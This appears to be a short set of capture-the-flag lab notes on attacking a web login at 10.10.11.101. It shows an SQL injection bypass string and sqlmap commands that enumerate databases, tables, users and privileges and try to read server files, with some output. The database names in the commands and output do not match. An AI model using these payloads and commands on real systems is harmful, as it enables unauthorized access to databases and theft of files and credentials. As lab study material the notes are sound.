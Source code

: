 ## database 
good article for sqlmap https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/
## actually it was sql injection
```bash
admin'  or 1=1 or ''='
```
## show databases
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --dbs --batch
```

```bash
available databases [2]:
[*] information_schema
[*] writer

```
## show tables of particular database
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --tables -D safecosmetics
```

```bash
Database: writer
[3 tables]
+---------+
| site    |
| stories |
| users   |
+---------+

```
## show columns of table
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --tables -D safecosmetics -T users
```

## show current user
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST  --batch --current-user
```

## privilegies
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST  --batch  --privileges
```

```bash
database management system users privileges:
[*] %admin% [1]:
    privilege: FILE

```
## file read
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --batch --file-read /
```